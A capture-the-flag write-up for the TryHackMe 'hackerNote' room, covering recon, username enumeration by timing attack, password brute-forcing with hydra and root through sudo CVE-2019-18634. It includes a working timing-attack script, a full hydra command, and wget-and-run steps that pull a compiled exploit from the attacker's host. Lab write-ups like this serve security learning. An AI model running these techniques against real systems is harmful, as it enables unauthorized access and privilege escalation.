# recon
```
port scanning...
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy
Enumerating open ports...
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-11 08:16 EDT
Nmap scan report for 10.10.128.8
Host is up (0.055s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 10:a6:95:34:62:b0:56:2a:38:15:77:58:f4:f3:6c:ac (RSA)
|   256 6f:18:27:a4:e7:21:9d:4e:6d:55:b3:ac:c5:2d:d5:d3 (ECDSA)
|_  256 2d:c3:1b:58:4d:c3:5d:8e:6a:f6:37:9d:ca:ad:20:7c (ED25519)
80/tcp   open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Home - hackerNote
8080/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Home - hackerNote
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (92%), Linux 3.1 - 3.2 (92%), Linux 3.11 (92%), Linux 3.2 - 4.9 (92%), Linux 3.5 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- fail log in : Invalid Username Or Password 
when log in with wrong username, the web app take less time to reponse than when I using the valid username but wrong password. We can use this to enumerate valid username:

we will use a timing attack to find out username, I try to make my own script. BUT SADLY, It didnt work the way I wanted too... So pls use the script that provided by [NinjaJc01](https://github.com/NinjaJc01/hackerNoteExploits/blob/master/exploit.py)
```py
"""
python3 timing-atk.py <url> <usernsme-file>
"""
import requests, time, sys
URL = sys.argv[1]
USER_FILE = sys.argv[2]

def fire(username):
    creds = {"test":username,"password":"invalidPassword!"}
    res = requests.post(URL,json=creds)

print('fire the payloads')
timing = []
file = open(USER_FILE, "r")
for line in file:
    username = line.replace("\n", "")
    startTime = time.time()
    fire(username)
    endTime = time.time()
    timing.append((username, (endTime - startTime)))
    time.sleep(0.03)


print('done, now sorting \n top 10 usersname:')
timing.sort(key=lambda tup: tup[1])

for i in range(0,10):
	print(timing[(len(timing) -1) - i])
```
Now when we you should get a username. The hint for james's password **"my favourite colour and my favourite number"** so let create a costumise wordlist using color.txt and number.txt which are avalible on THM. we will use `combinator.bin` to combine both color.txt and number.txt together. Lets do it
```console
kali@kali:~/THM/hackernote/wordlists$ find / -name combinator.bin 2> /dev/null 
/usr/lib/hashcat-utils/combinator.bin
^C
kali@kali:~/THM/hackernote/wordlists$ /usr/lib/hashcat-utils/combinator.bin colors.txt numbers.txt > wordlist.txt
kali@kali:~/THM/hackernote/wordlists$ wc -l wordlist.txt 
180 wordlist.txt
```
So let bruteforce for password using our lovly monster, `hydra`. to lern more about hydra, check hydra room on THM.
```console
kali@kali:~/THM/hackernote/wordlists$ hydra -t 64 -l james -P wordlist.txt 10.10.71.229 http-post-form "/api/user/login:username=^USER^&password=^PASS^:Invalid Username Or Password"

[DATA] attacking http-post-form://10.10.71.229:80/api/user/login:username=^USER^&password=^PASS^:Invalid Username Or Password
[STATUS] 64.00 tries/min, 64 tries in 00:01h, 116 to do in 00:02h, 64 active
[80][http-post-form] host: 10.10.71.229   login: j___   password: ____
```
log into the hackernote and you will find a note which contain james's ssh password.

# foothold
ssh to the victim server and grab user flag

# root
let check what we can run as root
```console
james@hackernote:~$ sudo -l
[sudo] password for james: ********
Sorry, user james may not run sudo on hackernote.
```
Unfortunately, the current user cannot run any commands as root. You may have noticed, however, that when you enter your password you see asterisks. This is not default behaviour. There was a recent CVE released that affects this configuration. The setting is called `pwdfeedback`, **CVE-2019-18634**

let the exploit, complie it, and tranfer to victim server. In this case, I was using python http server.
```console
kali@kali:~/script$ git clone https://github.com/saleemrashid/sudo-cve-2019-18634.git
kali@kali:~/script$ cd sudo-cve-2019-18634/
kali@kali:~/script/sudo-cve-2019-18634$ ls
exploit.c  LICENSE  Makefile  README.md
kali@kali:~/script/sudo-cve-2019-18634$ make all
cc -Os -g3 -std=c99 -Wall -Wextra -Wpedantic -static -o exploit exploit.c
kali@kali:~/script/sudo-cve-2019-18634$ ls
exploit  exploit.c  LICENSE  Makefile  README.md
kali@kali:~/script/sudo-cve-2019-18634$ python3 -m http.server --cgi 8000
```
now on victim server, exceute the exploit!!
```console
james@hackernote:~$ wget http://10.11.14.220:8000/exploit
james@hackernote:~$ chmod +x exploit 
james@hackernote:~$ ./exploit 
[sudo] password for james: 
Sorry, try again.
# whoami
root
```